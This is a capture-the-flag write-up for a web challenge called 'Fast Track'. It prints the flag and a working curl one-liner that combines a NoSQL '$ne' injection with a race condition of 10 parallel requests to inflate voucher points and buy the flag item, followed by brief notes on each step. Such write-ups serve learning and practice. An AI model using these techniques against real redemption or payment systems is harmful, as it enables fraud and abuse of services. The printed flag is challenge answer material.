 

# Fast Track – Web Exploitation

## Flag

```
citadel{ak1ra_w4it5_f0r_y0u_4t_n1te}
```


The challenge runs a voucher redemption system where each voucher gives 5 points. You need 50 points to buy the secret item containing the flag.


### payload

```bash
curl -s -c /tmp/c.txt -H "Content-Type: application/json" -d "{\"username\":\"u$RANDOM\",\"password\":\"pass123\"}" http://chall_citadel.cryptonitemit.in:62014/register-user && for i in {1..10}; do curl -s -b /tmp/c.txt -G --data-urlencode "discountCode[\$ne]=" http://chall_citadel.cryptonitemit.in:62014/redeem & done; wait && curl -s -b /tmp/c.txt -H "Content-Type: application/json" -d '{"productId":4}' http://chall_citadel.cryptonitemit.in:62014/store | grep -o 'citadel{[^"]*}'
```

Registers user, exploits race condition with 10 parallel NoSQL-injected requests to accumulate 50 points, purchases flag is the intended soln but 

i got the flag by sending 10 requests by exploiting abv mentioned vuln.

NoSQL Injection `$ne` operator to Bypass  validation
 race con : 10 parallel requests during 2s delay which Multiply rewards from 5 to 50 points
Purchase product ID 4 at last to Get the flag

